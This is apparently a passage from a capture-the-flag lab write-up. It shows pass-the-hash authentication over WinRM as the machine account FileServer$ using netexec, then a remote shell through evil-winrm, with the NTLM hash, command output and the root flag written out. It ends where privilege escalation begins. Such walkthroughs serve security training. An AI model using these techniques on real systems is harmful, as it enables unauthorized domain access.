 Given this result, we proceed to test if the same credentials also allow us to authenticate over `WinRM`.

# WINRM

```bash 
netexec winrm SOUPEDECODE.LOCAL -u FileServer$ -p 'aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559'
```
Info:
```
WINRM       10.0.4.17       5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:SOUPEDECODE.LOCAL)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.0.4.17       5985   DC01             [+] SOUPEDECODE.LOCAL\FileServer$:aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559 (Pwn3d!)
```

We confirm that we can authenticate over `WinRM` as the `FileServer$` user and gain system access.

```bash
evil-winrm -i SOUPEDECODE.LOCAL -u 'FileServer$' -H 'e41da7e79a4c76dbd9cf79d1cb325559'
```
Info:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\FileServer$\Documents>
```

We begin searching through the files of both `FileServer$` and the other users, looking for anything of interest. In the path `C:\Users\Administrator\Desktop` we find the root flag of the machine.

```
a9564ebc3289b7a14551baf8ad5ec60a
```

However, this is not the end, we still need to escalate privileges.

# PRIVILEGE ESCALATION

```powershell
whoami /priv
```

